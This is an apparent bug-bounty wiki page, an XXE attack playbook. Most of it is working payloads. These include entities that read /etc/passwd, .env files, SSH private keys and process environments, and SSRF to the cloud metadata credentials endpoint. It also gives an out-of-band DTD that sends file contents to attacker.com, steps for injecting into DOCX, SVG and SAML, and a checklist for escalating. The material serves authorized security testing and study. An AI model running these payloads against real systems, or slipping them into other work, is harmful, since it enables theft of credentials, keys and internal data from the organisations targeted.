

> Source: https://bugbounty.info/Attack-Surface/Web/File-Operations/XXE

# XXE (XML External Entities)

XXE is not dead  -  it's just hiding. The obvious XML endpoints are long since patched. The interesting surface is everywhere XML is parsed without being obviously XML: DOCX/XLSX file uploads, SVG processing, SAML authentication, SOAP endpoints, RSS/Atom parsers, and any API that accepts `application/xml`. When you find an XML parser that hasn't disabled external entities, you can read local files and  -  with the right parser  -  reach internal services.

## Where XML Still Hides



## Basic XXE  -  File Read

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

If the response contains the contents of `/etc/passwd`, you've got XXE with direct output. This is the best case  -  escalate immediately to reading application config files, private keys, and secrets.

Useful files to read after confirmation:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
<!ENTITY xxe SYSTEM "file:///proc/self/environ">
<!ENTITY xxe SYSTEM "file:///app/.env">
<!ENTITY xxe SYSTEM "file:///var/www/html/config.php">
<!ENTITY xxe SYSTEM "file:///home/app/.ssh/id_rsa">
```

## SSRF via XXE

The `SYSTEM` identifier accepts `http://` as well as `file://`. If the parser follows HTTP URLs, you've got server-side request forgery through the XML parser:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<foo>&xxe;</foo>
```

Internal service discovery:

```xml
<!ENTITY xxe SYSTEM "http://internal-service.corp/admin">
<!ENTITY xxe SYSTEM "http://10.0.0.1:8080/actuator/env">
```

See [SSRF](../../../Attack-Surface/Web/SSRF/SSRF) for the full internal network exploitation playbook  -  the same targets apply here.

## Blind XXE  -  OOB Exfiltration

Often the XML is processed but the result isn't reflected. You need out-of-band (OOB) exfiltration. Use Burp Collaborator (or interactsh) to receive the DNS/HTTP callbacks.

### Step 1: Test for Blind XXE via SSRF callback

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://YOUR.COLLABORATOR.BURP.NET/xxe-test">
]>
<foo>&xxe;</foo>
```

If you get a DNS or HTTP interaction on your collaborator, the parser is making external requests  -  blind XXE is confirmed.

### Step 2: Exfiltrate Data via OOB DTD

Host a malicious DTD on your server:

```xml
<!-- https://attacker.com/evil.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/collect?data=%file;'>">
%eval;
%exfil;
```

Trigger it from the target:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<foo>trigger</foo>
```

The file contents arrive in the GET request to your server. Limitations: some parsers won't load multi-line files this way  -  you may need to base64 encode the content.

### Base64 Exfiltration (handles newlines)

```xml
<!-- evil.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
```

For files with newlines, use PHP-style base64 filter if PHP is involved:

```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
```

The response will be base64-encoded  -  decode on your end.

## XXE in Office Documents (DOCX/XLSX)

Office Open XML files (DOCX, XLSX, PPTX) are ZIP archives containing XML files. Unzip, inject the XXE entity into one of the XML files, re-zip, upload.

```bash
# Unzip the docx
mkdir docx_xxe && cp test.docx docx_xxe/
cd docx_xxe && unzip test.docx -d extracted/
 
# Edit word/document.xml or [Content_Types].xml
# Add your DOCTYPE and entity reference
 
# Repack
cd extracted && zip -r ../evil.docx .
```

The `[Content_Types].xml` file is parsed early  -  injecting there has high success rate. The `word/document.xml` is where the document content lives.

## XXE in SVG

Upload an SVG file containing an XXE payload. If the server processes the SVG (for thumbnailing, rendering, converting to PNG), the parser may fire the entity:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <text>&xxe;</text>
</svg>
```

If the rendered output (PNG thumbnail, inline SVG in HTML) contains the file content, you have XXE via SVG.

## XXE in SAML

SAML assertions are XML, signed and base64-encoded. If the SP processes entities before or separately from signature validation:

1. Intercept the SAMLResponse parameter (POST binding)
2. Base64 decode
3. Inject XXE before the signature element (or test if signature validation even occurs)
4. Re-encode and submit

SAML XXE is high-impact because it's in an authentication flow  -  file read or SSRF in the authentication path.

## Content-Type Switching

Some JSON APIs will happily parse XML if you change the Content-Type header:

```http
POST /api/process HTTP/1.1
Content-Type: application/xml
 
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root><data>&xxe;</data></root>
```

Worth testing on any endpoint that processes structured data  -  some backends use a general-purpose parser that handles both formats.

## Checklist

- Find all XML consumption points: direct XML endpoints, file upload, SAML, SOAP
- Test basic file read XXE with `/etc/passwd`
- Test SSRF via `http://` in SYSTEM identifier  -  use Collaborator
- If no reflection: test blind XXE via Collaborator DNS/HTTP callback
- If blind confirmed: set up OOB DTD exfiltration server
- Test DOCX/XLSX/SVG upload for server-side XML parsing
- Try Content-Type: application/xml on JSON endpoints
- For PHP backends: try `php://filter/convert.base64-encode/resource=` URIs
- Check SAML endpoints for XML entity processing before signature validation

## Public Reports

Real-world XXE findings across bug bounty programs:

- XXE on Twitter via cloudhopper SXMP servlet disclosing local files - [HackerOne #248668](https://hackerone.com/reports/248668)
- XXE in Semrush Site Audit via sitemap.xml parsing - [HackerOne #312543](https://hackerone.com/reports/312543)
- XXE on Mail.ru via RSS/Atom feed parsing - [HackerOne #505947](https://hackerone.com/reports/505947)
- XXE on Starbucks exposing server files - [HackerOne #500515](https://hackerone.com/reports/500515)

## See Also

- [SSRF](../../../Attack-Surface/Web/SSRF/SSRF)
- [Path Traversal](../../../Attack-Surface/Web/File-Operations/Path-Traversal)
- [File Upload Attacks](../../../Attack-Surface/Web/File-Operations/File-Upload)
